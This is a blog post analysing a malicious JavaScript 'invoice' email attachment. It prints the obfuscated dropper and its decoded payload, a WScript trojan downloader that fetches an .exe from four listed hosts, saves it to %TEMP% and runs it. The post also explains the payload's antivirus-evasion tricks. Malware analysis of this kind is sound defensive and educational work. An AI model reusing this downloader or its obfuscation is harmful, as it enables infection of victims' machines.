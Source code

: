 ```yaml
---
layout: post
title: Sick use of technology
categories: [tech]
tags: []
published: True

---
```


So my abandoned email address was recently spammed with a lot of "invoices" that I did not pay. 

![invoices](/assets/invoices.png)

Each "invoice" is a JavaScript file that looks like this:

{% highlight js %}
var UdpJBNrcsNApR=[];for(wNNrUTG=(-840+840)/419;wNNrUTG<(14733+499)/119;wNNrUTG++){UdpJBNrcsNApR[wNNrUTG]=String.fromCharCode(wNNrUTG)}function TRbfH(RnyFtbnscoR,dWlUzxYAmCDrq,jVSHyhVl){kfgB=parseInt(RnyFtbnscoR,dWlUzxYAmCDrq);uPvuf=kfgB.toString(jVSHyhVl);return uPvuf;}function IMnKyzGDgNtoqZM(eOQyFMPlBvYVXxifI){eval(eOQyFMPlBvYVXxifI)}
function oZoKVfOEBCbxruazhlJtnbYbWKFGMLHLFDNOOzbjFzuRQgZSDRgeOD(SPERYSHJTIwby,glflOEANqFOpXF){ return UdpJBNrcsNApR[TRbfH(SPERYSHJTIwby[glflOEANqFOpXF],(7234+266)/750,(6206+74)/628)];}
function CvSBklu(dUsMXWkKxnPhKSBcKMDAWNJQlOJlNNSXeTrj) {return !isNaN(parseFloat(dUsMXWkKxnPhKSBcKMDAWNJQlOJlNNSXeTrj)) && isFinite(dUsMXWkKxnPhKSBcKMDAWNJQlOJlNNSXeTrj);}
function asPGOqPoyQe(UfzlDOUG,WYuyuu){return UfzlDOUG.split(WYuyuu)}
var T=[];T.push("13");T.push("10");T.push("13");T.push("10");T.push("118");T.push("97");T.push("114");T.push("32");T.push("76");T.push("32");T.push("61");T.push("32");T.push("34");T.push("112");T.push("114");T.push("101");T.push("115");T.push("116");T.push("97");T.push("107");T.push("105");T.push("116");T.push("99");T.push("104");T.push("101");T.push("110");T.push("46");T.push("99");T.push("111");T.push("109");T.push("47");T.push("119");T.push("112");T.push("45");T.push("105");T.push("110");T.push("99");T.push("108");T.push("117");T.push("100");T.push("101");T.push("115");T.push("47");T.push("112");T.push("111");T.push("109");T.push("111");T.push("47");T.push("56");T.push("53");T.push("46");T.push("101");T.push("120");T.push("101");T.push("63");T.push("32");T.push("97");T.push("99");T.push("115");T.push("98");T.push("114");T.push("111");T.push("107");T.push("101");T.push("114");T.push("97");T.push("103");T.push("101");T.push("46");T.push("99");T.push("111");T.push("109");T.push("47");T.push("99");T.push("115");T.push("115");T.push("47");T.push("102");T.push("111");T.push("110");T.push("116");T.push("115");T.push("47");T.push("95");T.push("95");T.push("112");T.push("97");T.push("103");T.push("101");T.push("115");T.push("95");T.push("115");T.push("111");T.push("117");T.push("114");T.push("99");T.push("101");T.push("115");T.push("47");T.push("56");T.push("53");T.push("46");T.push("101");T.push("120");T.push("101");T.push("63");T.push("32");T.push("97");T.push("98");T.push("111");T.push("117");

... and the array push continues ...

var yuWIy=[T,s];
var NLfSHoSCV=[];
function AwRUQXgZdYewyfjsL(yuWIy){BJgJYCcnDpy= '';for(WbcrWHNJlUX=(-133+133)/1; WbcrWHNJlUX < (1174+444)/809; WbcrWHNJlUX++) {NLfSHoSCV[WbcrWHNJlUX]=(-484+484)/81; while(true) { if(NLfSHoSCV[WbcrWHNJlUX] > yuWIy[WbcrWHNJlUX].length-(-159+260)/101) { break; } if (CvSBklu(TRbfH(yuWIy[WbcrWHNJlUX][NLfSHoSCV[WbcrWHNJlUX]],(2917+733)/365,(4380+170)/455))) {BJgJYCcnDpy += oZoKVfOEBCbxruazhlJtnbYbWKFGMLHLFDNOOzbjFzuRQgZSDRgeOD([yuWIy[WbcrWHNJlUX][NLfSHoSCV[WbcrWHNJlUX]]], (-214+214)/308);} NLfSHoSCV[WbcrWHNJlUX]++;}} return BJgJYCcnDpy}
IMnKyzGDgNtoqZM(AwRUQXgZdYewyfjsL(yuWIy));
{% endhighlight %}

Since I love the JavaScript language and I used to be a huge, huge fan of viruses and antivirus software in middle school, I immediately realized that my CS background in university has finally prepared me to deeply dive into these codes and find out why they are malicious.

## Beautify the uglified

So the massive `array.push` seems like it's building a string from ASCII characters. However, I really need to first use a [beautifier](http://jsbeautifier.org/) to properly indent the code.

The part after all the array pushes looks like this:

{% highlight js %}
function AwRUQXgZdYewyfjsL(yuWIy) {
    BJgJYCcnDpy = '';
    for (WbcrWHNJlUX = (-133 + 133) / 1; WbcrWHNJlUX < (1174 + 444) / 809; WbcrWHNJlUX++) {
        NLfSHoSCV[WbcrWHNJlUX] = (-484 + 484) / 81;
        while (true) {
            if (NLfSHoSCV[WbcrWHNJlUX] > yuWIy[WbcrWHNJlUX].length - (-159 + 260) / 101) {
                break;
            }
            if (CvSBklu(TRbfH(yuWIy[WbcrWHNJlUX][NLfSHoSCV[WbcrWHNJlUX]], (2917 + 733) / 365, (4380 + 170) / 455))) {
                BJgJYCcnDpy += oZoKVfOEBCbxruazhlJtnbYbWKFGMLHLFDNOOzbjFzuRQgZSDRgeOD([yuWIy[WbcrWHNJlUX][NLfSHoSCV[WbcrWHNJlUX]]], (-214 + 214) / 308);
            }
            NLfSHoSCV[WbcrWHNJlUX]++;
        }
    }
    return BJgJYCcnDpy
}

IMnKyzGDgNtoqZM(AwRUQXgZdYewyfjsL(yuWIy));
{% endhighlight %}

Here I am particularly interested in the last line. The `IMnKyzGDgNtoqZM` function takes a parameter, and then calls `eval(param)`. That's all it does. So I guess it's building a string that's another JavaScript code, and everything above is likely safe until I actually evaluate it.

## Let's run it

### ... only if you know what you're doing.###

So I did, because I know I'm safe if I don't run the last line, and running everything above will reveal the secrets in the array. The parameter passed into the obfuscated `eval` function looks like this:

{% highlight js linenos %}
var L = "prestakitchen.com/wp-includes/pomo/85.exe? acsbrokerage.com/css/fonts/__pages_sources/85.exe? aboutacquisitions.com/wp-includes/theme-compat/85.exe? 46.151.52.197/85.exe?".split(" ");
var GHs =((1/*rGiz542702596n847085uM354193eOiZ*/)?"WScri":"")+"pt.Shell";
var uI = WScript.CreateObject(GHs);
var Ht = "%TEMP%\\";
var Cms = uI.ExpandEnvironmentStrings(Ht);
var nsz = "2.XMLH";
var Rhg = nsz + "TTP";
var qt = true  , Napl = "ADOD";
var Qi = WScript.CreateObject("MS"+"XML"+(315275, Rhg));
var Jeu = WScript.CreateObject(Napl + "B.St"+(356233, "ream"));
var nUm = 0;
var Y = 1;
var cfvnksE = 937547;
for (var d=nUm; d<L.length; d++)  {
  var rG = 0;
  try  {
    poi = "GET";     
    Qi.open(poi,"http://"+L[d]+Y, false); Qi.send(); if (Qi.status == 359-159)  {
      Jeu.open(); Jeu.type = 1; Jeu.write(Qi.responseBody); if (Jeu.size > 2356-787)  {
        rG = 1; Jeu.position = 0; Jeu.saveToFile/*AV6k708QWx*/(Cms/*3JJG480PaV*/+cfvnksE+".exe",4-2); try  {
          if (((new Date())>0,7918092888)) {
            uI./*d747795OAiR*/Run(Cms+cfvnksE+/*b04z77lSpO*/".exe",/*uda163ArdM*/3-2,0); 
            break;
          }
        }
        catch (Ua)  {
        }; 
      }; Jeu.close(); 
    }; 
    if (rG == 1)  {
      nUm = d; break; 
    }; 
  }
  catch (Ua)  { 
  }; 
}; 
{% endhighlight %}

## So what is this?

As you can see, the first line is creating an array in a fairly interesting way. The content? Oh wow, it's an array of 4 links to an exe file! Without reading further I'd know this is one of the `Trojan Downloaders` that I encountered before, which really remind me of my middle school fun life with these things in the sandbox (oh yeah). 

And the fact that it's using `WScript` can't be more familiar - almost all antivirus software alerting me of a trojan downloader will say something about [WScript](https://support.microsoft.com/en-us/kb/232211). I guess it's like a Bash script for linux, except this is in Windows - because JavaScript alone won't download the file and execute it on your behalf. 

It is also very fun to read line 2, 21 and 22. Line 2 and 22 are the essential parts of the downloading and executing process, they are constructing the WScript, and running the exe file. It's interesting because there are random comments inserted between the important parts, like the `Run` method call and the exe file name. Line 2 even uses a `?:` operator where the condition always evaluates to true. Line 21 is creating a new `Date` object and compares it to 0 (which is always true), and then added a comma and a number, which does nothing. All of these little tricks is trying to bypass the antivirus scan, and even I can see it's really amateur. I highly doubt this method will trick the so-called **signature-based detection** - which is the reason you update your antivirus software. Not to mention even in my middle school time, the behaviour-based **proactive defense** technique was already standard. Not to mention further that the actuall exe might be killed right away, and technically this JavaScript file is not a virus itself. 

## Please write good software

As the Chinese saying says, "A evil person is more dangerous when he is knowledgable". As an ambitious software engineer, I hope people stop writing this kind of software. Put your knowledge in good use. To the author of this code, although you look like a newbie (lol), you must have some talent to write all these, therefore I wouldn't believe you could only get some income in this way. We create softwares to make our lives easier, not the other way around. 
